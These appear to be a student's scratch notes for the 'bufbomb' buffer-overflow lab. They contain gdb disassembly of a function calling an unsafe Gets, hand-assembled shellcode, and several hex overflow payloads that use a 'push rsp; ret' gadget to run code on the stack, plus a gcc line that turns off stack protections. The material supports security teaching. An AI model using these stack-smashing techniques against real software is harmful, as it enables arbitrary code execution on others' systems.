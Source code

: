 130     {
   0x0000000000401cd2 <+0>:     55      push   rbp
   0x0000000000401cd3 <+1>:     48 89 e5        mov    rbp,rsp
   0x0000000000401cd6 <+4>:     48 83 ec 30     sub    rsp,0x30
   0x0000000000401cda <+8>:     48 89 7d d8     mov    QWORD PTR [rbp-0x28],rdi
   0x0000000000401cde <+12>:    89 75 d4        mov    DWORD PTR [rbp-0x2c],esi

131         char buf[NORMAL_BUFFER_SIZE];
132             printf("bufn:%p\n", &buf);
   0x0000000000401ce1 <+15>:    48 8d 45 e0     lea    rax,[rbp-0x20]
   0x0000000000401ce5 <+19>:    48 89 c6        mov    rsi,rax
   0x0000000000401ce8 <+22>:    48 8d 05 f8 05 00 00    lea    rax,[rip+0x5f8]        # 0x4022e7
   0x0000000000401cef <+29>:    48 89 c7        mov    rdi,rax
   0x0000000000401cf2 <+32>:    b8 00 00 00 00  mov    eax,0x0
   0x0000000000401cf7 <+37>:    e8 94 f3 ff ff  call   0x401090 <printf@plt>

133         Gets(buf, src, len);
   0x0000000000401cfc <+42>:    8b 55 d4        mov    edx,DWORD PTR [rbp-0x2c]
   0x0000000000401cff <+45>:    48 8b 4d d8     mov    rcx,QWORD PTR [rbp-0x28]
   0x0000000000401d03 <+49>:    48 8d 45 e0     lea    rax,[rbp-0x20]
   0x0000000000401d07 <+53>:    48 89 ce        mov    rsi,rcx
   0x0000000000401d0a <+56>:    48 89 c7        mov    rdi,rax
   0x0000000000401d0d <+59>:    e8 68 f9 ff ff  call   0x40167a <Gets>

134         return 1;
   0x0000000000401d12 <+64>:    b8 01 00 00 00  mov    eax,0x1

--Type <RET> for more, q to quit, c to continue without paging--
135     }
   0x0000000000401d17 <+69>:    c9      leave
   0x0000000000401d18 <+70>:    c3      ret




目标 修改eax，保持rbp不变
0x401dcc
&gets_buf = 0x404160 
rbp-0x20
0x404128
rsp - 0x1d 
mov eax jmp eax


mov 0x4e8348, %eax
mov %rsp, %rbp
add $0x30, %rbp
push $0x401d1e
ret 

   0:   8b 04 25 48 83 4e 00    mov    0x4e8348,%eax
   7:   48 89 e5                mov    %rsp,%rbp
   a:   48 83 c5 30             add    $0x30,%rbp
   e:   68 1e 1d 40 00          push   $0x401d1e
  13:   c3                      ret    

b8 c3 7d 0d 0c
48 89 e5
48 83 c5 30
68 3f 15 40 00
c3 
00 00 00
00 00 00
00 00 00 00 00
00 00 00 00
00 00 00 00 00 00 00
cc 1d 40 00 00 00 00 00

b8 c3 7d 0d 0c
48 89 e5
48 83 c5 30
68 3f 15 40 00
c3 
00 00 00
00 00 00
00 00 00 00 00
00 00 00 00
00 00 00 00 00 00 00
62 7f 42 00 00 00 00 00
b8 c3 7d 0d 0c
48 89 e5
48 83 c5 30
68 1e 1d 40 00
c3 

gcc -static -g -D U5 -fno-stack-protector -no-pie -fcf-protection=none -z execstack bufbomb.c buf.c support.c -o bufbomb


0x0000000000427f62 : push rsp ; ret

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
62 7f 42 00 00 00 00 00 // push rsp; ret
8b 04 25 48 83 4e 00   // mov    0x4e8348,%eax
48 89 e5               // mov    %rsp,%rbp
48 83 c5 30            // add    $0x30,%rbp
68 1e 1d 40 00         // push   $0x401d1e
c3                     // ret    



00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
62 7f 42 00 00 00 00 00 
8b 04 25 48 83 4e 00   
48 89 e5               
48 83 c5 30            
68 1e 1d 40 00          
c3                     